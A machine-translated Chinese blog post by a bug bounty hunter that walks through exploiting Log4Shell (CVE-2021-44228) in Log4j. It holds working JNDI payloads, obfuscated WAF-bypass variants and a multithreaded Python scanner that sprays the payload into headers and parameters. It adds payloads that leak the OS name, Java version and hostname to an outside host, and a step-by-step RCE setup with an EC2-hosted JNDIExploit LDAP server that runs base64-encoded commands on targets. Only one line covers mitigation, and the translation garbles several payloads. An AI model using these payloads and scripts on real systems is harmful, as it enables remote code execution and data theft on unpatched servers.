# Log4shell 零日漏洞利用—完整指南

> 原文：<https://infosecwriteups.com/log4shell-zero-day-exploit-full-guide-3a505f0c4248?source=collection_archive---------1----------------------->

大家好。我叫图欣·博斯( [@tuhin1729](https://instagram.com/tuhin1729) )。我是一名网络安全研究员和 bug 赏金猎人。在这篇文章中，我将描述被称为 [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/) 的关键零日漏洞，该漏洞存在于被数百万 Java 应用程序广泛使用的 Java 日志库 [Log4j](https://logging.apache.org/log4j/) 中。所以不浪费时间，让我们开始吧:


tuhin1729

# Log4j 是什么？

Apache [Log4j](https://logging.apache.org/log4j/) 是一个基于 Java 的日志记录实用程序，最初由 Ceki Gülcü编写。它是 Apache 日志服务的一部分，Apache 日志服务是 Apache 软件基金会的一个项目。Log4j 是几个 Java 日志框架中的一个，它被互联网上数以百万计的 Java 应用程序广泛使用。

# Log4shell 是什么？

周四(12 月 9 日)，在流行的 Java 日志库 log4j (v2)中发现了一个为期 0 天的漏洞，该漏洞通过记录特定字符串导致远程代码执行(RCE)。这一天是和发布在 GitHub[上的 POC 一起发布的。现已公布为](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)[CVE-2021–44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)。这个漏洞通常被称为 Log4Shell 漏洞。受影响的 Log4j 版本是 2.0-beta 9<= Apache Log4j<= 2 . 14 . 1。2.15.0 版修复了这个 bug。

# 利用要求:

*   log4j 版本易受攻击的服务器。
*   具有任何协议(HTTP、TCP 等)的端点，允许攻击者发送漏洞字符串。
*   从该请求中注销字符串的日志记录语句。

# 去哪里打猎？

找出任何可能被记录的字段。例如，你正在访问的端点，用户代理，推荐人，你搜索的东西，你以某种形式提交的东西，等等。

# 怎么打猎？

要检测此漏洞，只需在一些参数、用户代理、推荐人、搜索栏、不同的输入字段中插入您的有效负载(在 3xx 响应的情况下，请确保遵循重定向)。如果您的 collaborator 中有 DNS 交互，那么它可能是易受攻击的。我们将用于检测目的的有效负载是:$ { JNDI:LDAP://XYZ . burpcollaborator . net/a }



log4shell

[这里的“id”只是我使用的一个随机参数]



log4shell

希望你从这两张截图中清楚地了解了如何寻找这个漏洞。你也可以用金丝雀来检测。

# 晶片旁路:

要绕过 Web 应用程序防火墙，您可以使用以下有效负载:

```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```

# 怎么自动化？

要自动消除此漏洞，您可以使用以下代码:

```
from sys import argv
from requests import get
from urllib3 import disable_warnings
from concurrent.futures import ThreadPoolExecutordisable_warnings()proxies = {"http": "[http://127.0.0.1:8080](http://127.0.0.1:8080)", "https": "[http://127.0.0.1:8080](http://127.0.0.1:8080)"}def sendDetectionRequest(url, urlId):
    try:
        payload = '${jndi:ldap://' + str(urlId) + '.' + argv[2] + '/a}'
        params = {'id':payload}
        headers = {'User-Agent':payload, 'Referer':payload, 'X-Api-Version':payload, 'X-Forwarded-For':payload} #You_may_add_other_headers_here.
        url = url.strip()
        print('[{}] Testing {}'.format(urlId, url))
        get(url, headers=headers, params=params, verify=False, proxies=proxies, timeout=10)
    except Exception as e:
        print(e)
        passthreads = []
urlId = 0
if len(argv) > 1:
    urlFile = open(argv[1], 'r')
    urlList = urlFile.readlines()
    with ThreadPoolExecutor(max_workers=15) as executor:
        for url in urlList:
            urlId += 1
            threads.append(executor.submit(sendDetectionRequest, url, urlId))
else:
    print('[!] Syntax: python3 {} <urlFile> <collaboratorPayload>'.format(argv[0]))
```

要记住的事情:
i .确保你的打嗝是打开的，并且监听端口 8080(否则你可以注释掉代理)。
二。您需要一个目标列表(不要忘记在您的目标后面添加协议)。
三世。语法:

```
python3 log4shell.py targets.txt xyz.burpcollaborator.net
```

现在，在您的合作者中，如果您获得了域名为 137.xyz.burpcollaborator.net 的 DNS 交互，那么您列表中的第 137 个目标就是易受攻击的。
你也可以试试这个:【https://github.com/fullhunt/log4j-scan】T4

# 如何剥削？

在直接进入 RCE 之前，我们将尝试获取目标的 Java 版本和 os 名称。为了获取操作系统名称，我们将使用这个有效负载:$ { JNDI:LDAP://$ { sys:OS . name } . XYZ . burpcollaborator . net/a }



os.name

为了获得 Java 版本，我们将使用这个版本:$ { JNDI:LDAP://$ { sys:Java . version } . XYZ . burpcollaborator . net/a }



您也可以尝试使用以下有效负载提取主机名:$ { JNDI:LDAP://$ { hostName } . XYZ . burpcollaborator . net/a }

## 远程代码执行:

为了执行任意命令，我们需要一个 VPS。对于这个博客，我们将使用 AWS EC2。首先，我们将创建一个 AWS EC2 实例。我用 Debian 10。为了安全起见，我将打开所有端口(否则您可能只打开端口 22、80、443、1389 和 8888)。



自动警报系统

现在我们将 ssh 到我们的 EC2 实例中。请确保在登录后运行更新和升级。



自动警报系统

现在我们将安装 zip、apache2 和 java。

```
sudo apt-get install apache2
sudo apt-get install default-jre
sudo apt-get install zip
sudo service apache2 start
```

现在在您的实例中下载这个 [zip 文件](https://anonfiles.com/xd07G204v9/JNDIExploit.v1.2_zip)并解压缩。



自动警报系统

最后，为了启动我们的 ldap 服务器，我们将使用:

```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i YOUR_PUBLIC_IP -p 8888
```



自动警报系统

现在一切都完成了。我们只需要注入有效载荷。我们将使用的有效负载是:$ { JNDI:LDAP://YOUR _ PUBLIC _ IP:1389/Basic/Command/Base64/Base64 _ ENCODED _ Command }

比方说，我想执行 whoami 命令。首先，我们将用 base64 编码我们的命令:



base64

现在我们将在我们的目标中使用这个有效负载:$ { JNDI:LDAP://184 . 73 . 9 . 177:1389/Basic/Command/Base64/cgluzybgd 2 hvyw 1 pyc 5 lewcznnl 1 nnl 0 z 21 id 21 lnxo 0y 25 qztrodm 5 symeuynvycngnvbgxhy m 9 yyxrvci 5 uzxq = }



log4shell

所以，我们的命令在服务器上执行。在您的实例中，您将看到类似这样的内容:



自动警报系统

# 缓解措施:

log4j 的 2.15.0 版已经发布，没有该漏洞。一定要尽快更新。

编辑:这不再是“零日”了。补丁已经发布了！所以，现在姑且称之为‘漏洞’吧。

# 参考资料:

[1][https://www.lunasec.io/docs/blog/log4j-zero-day/](https://www.lunasec.io/docs/blog/log4j-zero-day/)
【2】[https://github . com/Tang Xiaofeng 7/CVE-2021-44228-Apache-Log4j-Rce](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)

在 Twitter 上关注我:@ [tuhin1729](https://twitter.com/tuhin1729_) _

感谢阅读。我希望你喜欢这个博客。